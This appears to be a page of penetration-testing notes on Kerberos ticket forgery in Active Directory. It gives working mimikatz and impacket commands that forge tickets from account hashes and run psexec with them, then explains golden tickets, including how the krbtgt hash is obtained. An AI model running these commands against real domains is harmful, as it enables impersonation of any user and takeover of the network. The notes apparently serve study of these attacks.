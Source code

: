 ```bash
kerberos::golden /domain:cyberpeace.com /sid:S-1-5-21-2718660907-658632824-2072795563 /target:scene.cyberpeace.com /service:cifs /rc4:9a68826fdc2811f20d1f73a471ad7b9a /user:test /ptt

dir \\computername\c$

## impacket ticketer
ticketer.py -nthash 2fd4ca856c21e68b867a41314cda8ca3 -domain-sid S-1-5-21-432953485-3795405108-1502158860 -domain controller.local -spn cifs/controller-1.controller.local fakehello 

## psexec
export KRB5CCNAME=fakehello.ccache
psexec.py controller.local/fakehello@controller-1.controller.local -k -no-pass 
```

### GoldenTickets
+ A valid **TGT as any user** can be created using the **NTLM hash of the krbtgt AD account**. 
+ The advantage of forging a TGT instead of TGS is being **able to access any service (or machine)** in the domain and the impersonated user.
+ when a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain.
+ This secret key is actually the password hash of a domain user account called krbtgt.
+ krbtgt account NTLM hash obtained: lsass process, ntds.dit file of DC, DCsync attack

**golden ticket advantage**
* krbtgt account password is not automatically changed. Only changed when the domain functional level is upgraded from windows 2003 to windows 2008.
* Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain
